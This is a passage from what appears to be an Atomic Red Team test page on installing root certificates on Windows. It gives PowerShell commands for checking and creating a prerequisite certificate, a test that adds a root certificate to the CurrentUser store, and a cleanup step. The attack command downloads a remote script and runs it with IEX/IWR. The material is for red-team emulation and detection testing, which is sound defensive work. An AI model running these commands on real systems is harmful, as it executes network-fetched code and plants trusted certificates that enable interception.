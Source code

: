 

#### Dependencies:  Run with `powershell`!
##### Description: Certificate must exist at specified location (#{pfx_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{pfx_path}) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
$cert = New-SelfSignedCertificate -DnsName atomicredteam.com -CertStoreLocation cert:\LocalMachine\My
Export-Certificate -Type CERT -Cert  Cert:\LocalMachine\My\$($cert.Thumbprint) -FilePath #{pfx_path}
Get-ChildItem Cert:\LocalMachine\My\$($cert.Thumbprint) | Remove-Item
```




<br/>
<br/>

## Atomic Test #6 - Add Root Certificate to CurrentUser Certificate Store
The following Atomic test simulates adding a generic non-malicious certificate to the CurrentUser certificate store. This behavior generates a registry modification that adds the cloned root CA certificate in the keys outlined in the blog.
Keys will look like - \SystemCertificates\CA\Certificates or \SystemCertificates\Root\Certificates
Reference: https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec

**Supported Platforms:** Windows


**auto_generated_guid:** ca20a3f1-42b5-4e21-ad3f-1049199ec2e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1553.004/src/RemoteCertTrust.ps1' -UseBasicParsing)
```

#### Cleanup Commands:
```powershell
Get-ChildItem -Path Cert:\ -Recurse | Where-Object { $_.Thumbprint -eq '1F3D38F280635F275BE92B87CF83E40E40458400' } | remove-item
```





<br/>
